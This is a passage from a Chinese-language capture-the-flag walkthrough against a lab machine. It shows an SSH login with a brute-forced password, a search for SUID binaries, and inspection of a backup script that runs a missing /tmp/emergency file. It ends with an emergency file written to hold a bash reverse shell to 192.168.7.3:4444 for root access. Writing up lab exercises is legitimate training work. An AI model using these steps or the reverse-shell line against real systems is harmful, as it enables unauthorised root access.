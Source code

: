 暴破成功，eric的ssh密码是1mw4ckyyucky6，登录SSH

```
ssh eric@192.168.7.181
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

登录 成功，找找敏感信息

```
`ls``cat user.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到第1个flag，找一下提权信息

```
find / -perm -u=s -type f 2>/dev/null
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

权限提升
----

找到一个ping6执行下看看是什么

```
/bin/ping6
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

就是个ping命令，没有提权方法，再找找

```
`cd /var/backup``ls -al``cat backup.sh`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

在/var/backup目录下发现backup.sh文件，查看后发现程序最后执行了/tmp/emergency程序，来看看这个程序是干什么的

```
`cd /tmp``ls -al`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

没有emergency程序文件，那我们创建一个emergency文件来反弹个root权限的shell

```
`echo "bash -c 'exec bash -i &>/dev/tcp/192.168.7.3/4444 <&1'" > emergency``chmod +x emergency`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
